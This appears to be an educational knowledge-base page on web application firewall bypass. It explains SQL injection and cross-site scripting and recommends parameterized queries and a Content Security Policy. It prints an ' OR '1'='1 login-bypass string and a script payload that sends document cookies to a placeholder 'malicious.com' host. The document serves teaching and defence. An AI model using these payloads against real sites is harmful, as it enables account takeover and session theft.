 # WAF Bypass


# 👉 Overview

---

### 👀 What ?

> Web Application Firewall (WAF) Bypass is a technique used by threat actors to circumvent security measures put in place to protect web applications. Fundamentally, a WAF is a protection tool that sits between a web application and the internet. It operates by analysing HTTP requests to identify and mitigate potential attacks.
> 

### 🧐 Why ?

> Understanding WAF Bypass is critical as it underlines the importance of robust and comprehensive cybersecurity defenses. Web applications are frequently targeted by attackers due to their broad exposure to the internet, and the potential for high-value data theft. A WAF can help protect against such attacks, but if a WAF Bypass technique is successfully deployed, the security layer provided by the WAF is effectively nullified.
> 

### ⛏️ How ?

> To use or implement WAF Bypass techniques, a deep understanding of the WAF's rules and logic is required. This often involves extensive reconnaissance to identify potential weaknesses. Once these have been identified, various techniques such as input obfuscation, HTTP verb tampering, or cookie manipulation can be used to attempt to bypass the WAF. It's crucial to note that these techniques are typically used by threat actors and their use may be illegal.
> 

### ⏳ When ?

> The practice of WAF Bypass has been in use since the inception of WAF technology itself. As long as there have been defenses, there have been those seeking to bypass them. The sophistication and effectiveness of WAF Bypass techniques have evolved in tandem with the WAF technology itself.
> 

# ⚙️ Technical Explanations

---

Web Application Firewall (WAF) Bypass techniques exploit the logic that a WAF uses to identify and block malicious traffic. By manipulating this logic, threat actors can allow their harmful requests to pass through to the web application, effectively bypassing the security measures in place.

One common method used for WAF Bypass is SQL Injection. In this technique, threat actors manipulate SQL queries by inserting malicious code. This could involve altering existing queries or adding new ones that lead to unintended actions, such as unauthorized data access or modification. If the WAF isn't properly configured to recognize this abnormal behaviour, it may allow the malicious request to pass through.

Another technique used in WAF Bypass is Cross-Site Scripting (XSS). This involves an attacker injecting malicious scripts into trusted websites. These scripts are often designed to steal sensitive data from users or perform other harmful actions. If the WAF isn't programmed to block such scripts, they may make it through to the web application.

To mitigate these threats, it's crucial to regularly update and configure the WAF based on the current threat landscape. This involves staying informed about common WAF Bypass techniques and ensuring the WAF rules and logic are robust enough to block them. Regularly testing the WAF's effectiveness using techniques such as penetration testing or employing threat intelligence services can also be beneficial.

Moreover, it's important to note that WAFs should not be the only line of defense. They should be used as part of a layered security approach that includes other measures such as secure coding practices, intrusion detection systems, and regular security audits.

For example, consider a web application that uses a simple SQL query to authenticate users:

```sql
SELECT * FROM users WHERE username ='"+ username +"' AND password ='"+ password +"'

```

Suppose a threat actor enters `' OR '1'='1` as the username and password. The SQL query becomes:

```sql
SELECT * FROM users WHERE username ='' OR '1'='1' AND password ='' OR '1'='1'

```

This query will always return true, allowing the attacker to bypass the authentication process.

For Cross-Site Scripting (XSS), suppose a web application displays user comments without proper sanitization. An attacker could enter a comment like:

```html
<script>document.location='http://malicious.com?cookie='+document.cookie;</script>

```

This script, when rendered by the browser, would send the user's cookies to the attacker's server.

The WAF should recognize these as threats. If not, it may be due to outdated rules or misconfiguration. Regular updates and thorough testing can help prevent such bypasses.

For the SQL Injection example, using parameterized queries or prepared statements can help. For the XSS example, sanitizing user inputs and implementing a Content Security Policy (CSP) can be effective.

Remember, WAF is just one layer of protection. Other security measures should also be in place.
